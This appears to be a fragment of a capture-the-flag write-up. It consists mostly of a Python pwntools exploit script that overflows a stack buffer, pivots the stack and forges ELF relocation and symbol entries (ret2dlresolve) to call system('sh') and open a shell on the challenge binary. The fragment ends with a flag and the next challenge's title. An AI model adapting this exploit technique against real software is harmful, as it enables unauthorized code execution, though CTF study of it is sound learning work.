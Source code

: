 ```py
buf = 0x804ca00
leave_ret = 0x08049126
SYMTAB = 0x804820c
STRTAB = 0x80482ec
JMPREL = 0x8048408

buffer = b""
buffer += b"A"*0x408
buffer += p32(buf)
buffer += p32(exe.plt["read"]) + p32(leave_ret) + p32(0) + p32(buf) + p32(0x80) + b'AAAAAAAAAAAA'
print(hex(len(buffer)))

forged_ara = buf + 0x14
rel_offset = forged_ara - JMPREL
elf32_sym = forged_ara + 0x8

align = 0x10 - ((elf32_sym - SYMTAB) % 0x10)

elf32_sym = elf32_sym + align
index_sym = (elf32_sym - SYMTAB) // 0x10

r_info = (index_sym << 8) | 0x7

elf32_rel = p32(exe.got['read']) + p32(r_info)
st_name = (elf32_sym + 0x10) - STRTAB
elf32_sym_struct = p32(st_name) + p32(0) + p32(0) + p32(0x12)


buffer2 = b'AAAA'
buffer2 += p32(resolver)
buffer2 += p32(rel_offset)
buffer2 += b'AAAA'
buffer2 += p32(buf+100)
buffer2 += elf32_rel
buffer2 += b'A' * align
buffer2 += elf32_sym_struct
buffer2 += b"system\x00"
p = (100 - len(buffer2))
buffer2 += b'A' * p
buffer2 += b"sh\x00"
p = (0x80 - len(buffer2))
buffer2 += b"A" * p
pause()
io.send(buffer+buffer2)
#io.send(buffer2)
io.interactive()
# flag{don't_forget_to_take_out_the_grease}
```


## Space Force
points - 350
I wanna go to space!!!!!
